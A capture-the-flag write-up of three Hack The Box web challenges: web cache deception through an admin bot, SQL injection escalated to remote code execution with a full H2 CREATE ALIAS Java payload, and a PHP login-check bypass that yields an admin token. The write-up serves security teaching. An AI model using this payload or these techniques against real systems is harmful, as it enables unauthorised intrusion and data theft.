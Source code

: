 # Writeup_HTB_Web_Challenge
Write-up Web Challenge Hack The Box

## Table of Content
[CDNio](#cdnio)

[Pentest Notes](#pentest-notes)

[Insomnia](#insomnia)

## <a name="cdnio"></a> 	:triangular_flag_on_post: CDNio
Overview of the site have features: 
- register a new account with username, password, email
- search user profile

![image](https://github.com/user-attachments/assets/d621d82a-ce68-4e16-8f6a-0f4fc5fb9633)

![image](https://github.com/user-attachments/assets/d10678e2-f424-4a92-8b24-ab72c1205b6c)

We can see this web have api `/register` and `/profile`
![image](https://github.com/user-attachments/assets/0b63a3e3-e1d6-4a65-adc0-73ce8476e5a8)

Let's see source code

Noteworthy is this config file
![image](https://github.com/user-attachments/assets/eda95f81-341a-462b-b8a2-3ab544188c91)

`location ~* \.(css|js|png|jpg|jpeg|gif|ico|svg|woff|woff2|ttf|eot)$`
a regex allow all url have static extension

```
  proxy_cache cache;
  proxy_cache_valid 200 3m;
  ...
  add_header Cache-Control "public";   
```

and cache them in 3m for anyone read public. We can think of [web cache deception](https://portswigger.net/web-security/web-cache-deception) vulnerability

I have to test my hypothesis, api `/profile` have profile of user and admin. I will request to server `GET /profile/test.css`, if response returned is 200, it means the information has been cached

![image](https://github.com/user-attachments/assets/4ff05369-028c-4a92-bc58-70b5b82b92df)

If admin access `/profile/test.css`, profile admin also cache. But how to make admin access?
In folder bot have a `route.py` defined an api `/visit` request to url, line 20 will call `bot_thread()` method defined `utils/bot.py`

![image](https://github.com/user-attachments/assets/848fbe55-6ea4-4bc4-88dc-5fddd7a8345b)

`bot.py` will request to admin profile in server

![image](https://github.com/user-attachments/assets/188bb880-6461-462b-bba4-d43c119f0a66)

So, i send request uri `profile/test.css` via api `/visit`, uri will send to `bot.py` and get profile admin

![image](https://github.com/user-attachments/assets/dd358258-cb23-4d39-95c2-7d120bcff363)

Response 200 mean profile admin has been leak

![image](https://github.com/user-attachments/assets/47c10b6a-6468-442c-a422-1beb26b75c8a)

Get request to `profile/test.css` and done, receive flag

![image](https://github.com/user-attachments/assets/e12e788e-3746-4841-aef6-c36f49f0cf5e)

## <a name="pentest-notes"></a> 	:triangular_flag_on_post: Pentest Notes
Overview site, some feature:
- register, login

![image](https://github.com/user-attachments/assets/f8323701-3cd1-4b08-865f-15be739080b5)
![image](https://github.com/user-attachments/assets/1f1cfd74-b0d9-4c7a-b29e-8204d1381e34)

- list pentest, notes

![image](https://github.com/user-attachments/assets/63b1097a-c52f-4d0d-aa95-ddd078503e5a)
![image](https://github.com/user-attachments/assets/74c5f5a9-1c4d-4a25-a0ca-7f12b8a06198)

In page Note detail, we can see a parameter `name` 

![image](https://github.com/user-attachments/assets/0e306909-5323-4f44-82b3-df2fe236cb60)

Audit source, in `NotesController.java` param `name` insert to query

![image](https://github.com/user-attachments/assets/381adc91-3d7d-46de-b204-c04a1685701f)

This is SQL Injection vulnerability, we can insert query to leak data in database. 

Test the above hypothesis

![image](https://github.com/user-attachments/assets/14f2f8e5-67d0-4e0f-a92e-504e3840cf2e)

So, this web have SQL Injection, i will see schema of database to get data like table name, user. However, just NOTES table can access by query, and other tables can't get data

![image](https://github.com/user-attachments/assets/fa835a5e-9d5c-48b8-8aad-1e63cd9e6a6d)

Like table `TABLE_PRIVILEGES` i select to column in table but response 500. 
File pom.xml in source code, a dependency is h2.database, that mean this challenge use H2 database. I tried search [vulnerability about H2 DB](https://www.exploit-db.com/exploits/45506). This vulnerability about feature of database, build a ALIAS with java code to run shell in server. So, we can run java code via feature ALIAS of H2 database

I'm tried this payload, and we can pass parameter OS Command to RCE
``` java
SQL Injection' OR 1=0; CREATE ALIAS RCE AS '
    String execve(String cmd) throws java.io.IOException { 
        Process process = Runtime.getRuntime().exec(cmd); 
        java.io.InputStream inputStream = process.getInputStream(); 
        java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html");
        byte[] buffer = new byte[1024]; 
        int bytesRead; 
        while ((bytesRead = inputStream.read(buffer)) != -1) { 
            fileOutputStream.write(buffer, 0, bytesRead);
        } 
        fileOutputStream.close(); 
        inputStream.close(); 
        return "Output written to /app/target/classes/static/hola.html";
    }'; -- -
```

![image](https://github.com/user-attachments/assets/c7e0a44d-60bf-4fab-b857-82f2954d36c5)

And now, we can call ALIAS and pass OS Command

![image](https://github.com/user-attachments/assets/7994e97e-d112-4f69-8654-3c9d11e6888e)

![image](https://github.com/user-attachments/assets/edd7398a-a39a-43c0-863d-679ba74b0aa5)

![image](https://github.com/user-attachments/assets/56e60c11-77ea-442c-a851-fb6e98c0d76b)

## <a name="insomnia"></a> 	:triangular_flag_on_post: Insomnia

This challenge just have feature signup, signin and token jwt for authentication

![image](https://github.com/user-attachments/assets/4e00bc71-8313-432a-af82-59c91ee0281b)
![image](https://github.com/user-attachments/assets/c8da7d35-c659-413f-a16c-309aa2c27247)

Let's audit source see if there is anything interesting

![image](https://github.com/user-attachments/assets/9b036fbc-26ad-41d6-bf03-2069b8cd2845)

`ProfileController.php` in folder `app` decode from token and get `username=administrator` will return flag 

![image](https://github.com/user-attachments/assets/db96f2da-55f7-43e7-b512-4689b8e0ff74)

However, file `entrypoint.sh`, both JWT_SECRET and password has been defined random, which means it's almost impossible to fake admin token

In `UserController.php` file have function `login()`, there is a piece of code that should notice

![image](https://github.com/user-attachments/assets/296128da-afdb-49e7-9db3-e7222ca36b34)

``` php
      if (!count($json_data) == 2) {
          return $this->respond("Please provide username and password", 404);
      }
```
This patch filter data login of user inclusion username, password. `count($json_data)` return number of rows.

Suppose `count($json_data)=2` => !2=0(false) and 0 alway difference 2. That mean above condition incorrect. So, input data always bypass this patch.

``` php
      $query = $db->table("users")->getWhere($json_data, 1, 0);
```

This line of code get data from `users` by $json_data condition. We can request `username = administrator`, it's will bypass filter and get data with condition username = administrator

![image](https://github.com/user-attachments/assets/464bea95-a046-4342-9193-ba5cd2ff8ec3)

Just login with username, token admin will return

![image](https://github.com/user-attachments/assets/234e9717-54aa-48d9-bf28-cf43d8134dd7)
